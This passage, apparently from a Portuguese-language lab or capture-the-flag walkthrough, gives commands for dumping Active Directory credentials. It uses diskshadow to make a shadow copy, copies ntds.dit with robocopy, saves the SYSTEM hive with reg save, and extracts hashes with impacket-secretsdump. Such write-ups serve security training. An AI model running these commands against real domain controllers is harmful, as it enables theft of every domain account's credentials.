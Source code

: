 
Agora, uma etapa fundamental é tornar o script compatível com o Windows. Para isso, utilizamos o comando ==unix2dos priv.dsh== a fim de converter os finais de linha do formato Unix (LF) para o formato Windows (CRLF), garantindo que o `diskshadow` consiga interpretá-lo corretamente.

### 3.2 Usando o exploit para obter informações confidenciais

```
mkdir C:\Temp  
cd C:\Temp  
diskshadow /s C:\Users\j.smith\Documents\priv.dsh  
robocopy /b z:\windows\ntds . ntds.dit  
reg save hklm\system C:\Temp\System
```

![](attachment/592593d068157157c96c61256343be5d.png)

Neste momento, basta realizar o download dos arquivos `ntds.dit` e `SYSTEM` para a máquina local, a fim de prosseguir com a extração das credenciais.

### 3.3 Obtendo Hash do Administrador
`impacket-secretsdump -system System -ntds ntds.dit local`